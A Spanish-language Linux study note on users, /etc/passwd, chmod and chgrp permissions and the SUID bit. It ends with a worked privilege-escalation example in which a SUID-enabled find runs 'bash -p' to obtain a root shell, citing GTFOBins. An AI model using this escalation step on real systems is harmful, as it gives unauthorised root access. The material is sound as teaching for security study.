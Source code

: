 # Usuarios
Como bien sabemos los usaurios del sistema se encuentran en `> /etc/passwd` cada uno de estos usuarios tiene una shell, podemos ver las shells registradas en el sistema.

	> /etc/shells

Si deseamos filtrar los usuarios, podemos aplicar un filtro por quien utiliza una *shell* ya que estan siempre terminan en *sh*

	cat /etc/passwd | grep "sh$" | awk '{print $1}' FS=':'

Output:
``` bash
root
postgres
s4tisfacti0n
```

Con `> id` podemos ver lo grupos a los que pertenece el usuario.

## Creacion de usuarios
Creamos el directorio correspondiente del usaurio

	> mkdir /home/white

Creamos el usuario

	> useradd -d /home/white -s /bin/bash white
-d *Directorio correspondiente al usuario*
-s *Tipo de shell a usar*

Obviamente le asignamos como propetario a *white:white*  de su directorio.

	> chown white:white /home/white

Y ya estariael usuario.

	white@DESKTOP-0365ART:~$ pwd
	/home/white
	white@DESKTOP-0365ART:~$ echo $SHELL
	/bin/bash
	white@DESKTOP-0365ART:~$ id
	uid=1001(white) gid=1001(white) grupos=1001(white)
	white@DESKTOP-0365ART:~$ 


# Permisos

## Lectura de permisos 

	drwxr-xr-x   5 s4tisfacti0n s4tisfacti0n  4096 oct 29 17:18 opt
*d* -> Directorio
*rwx rwx rwx*
 P     G    O
 
*r*-> read
*w* -> write/alter/create/delete
*x* -> *f*: execute | *d*: atravezar (cd /opt) 

## Asignacion de permisos & grupos
La asignacion la podemos otorgar con **chmod** que nos sirve para cambiar los permisos.
``` bash
	drwxr-xr-x 2 white white 4096 oct 30 07:31 directorio
	#agregar (+), quitar (-)
	#grupo (g), otros (o)
	chmod o-x directorio/ # no pueden acceder al directorio
	chmod g+rw,o-rx directorio/

```

Asignar a un usuario a un grupo.

	usermod -a -G colegio white

Cambiar el grupo de archivo o directorio con **chgrp**

	chgrp s4tisfacti0n directorio



## Permisos especiales

### SUID
**-rwsr-x---**
La **s** en rws significa setuid, lo que significa establecer ID de usuario. Este es un bit de permiso especial que permite que el programa, cuando lo ejecuta cualquier usuario, se ejecute con el SUID efectivo del propietario

*Nota:*
Este bit de permiso es un riesgo para la seguridad y solo debe aplicarse cuando sea absolutamente necesario.

#### Explotacion y abuso de privilegios

Asignar permiso SUID.
> Conversacion
-white: Oye root nesesito buscar archivos privilegiados con find, dame permiso no?
-root: Vale solo quieres buscar archivos.
-white: Si claro.

Añadiendo un 4 y los permisos del archivo podemos otorgar el permiso UID.

	root> chmod 4755 /usr/bin/find
	#
	root> chmod +s /usr/bin/find

	root> which find | xargs ls -l
	-rwsr-xr-x 1 root root 298576 abr 19  2022 /usr/bin/find

> Conversacion
> -white: Muchas gracias root :)
> -Narrador: Pero white no tiene buenas intencionas asi que busca escalar privilegios.
> 

Asi que va a [GTFobins](https://gtfobins.github.io) y encontro que puede ejecutar una bash con el con *find*

	find . -exec /bin/bash -p \; -quit
Qe consiste en buscar un archivo executable para ejecutar una bash, cuando encuentre este cierra el find.
``` bash
white@DESKTOP-0365ART:~$ find . -exec /bin/bash -p \; -quit
bash-5.2# whoami
root
bash-5.2# 
```

Mas [[Privilegios]].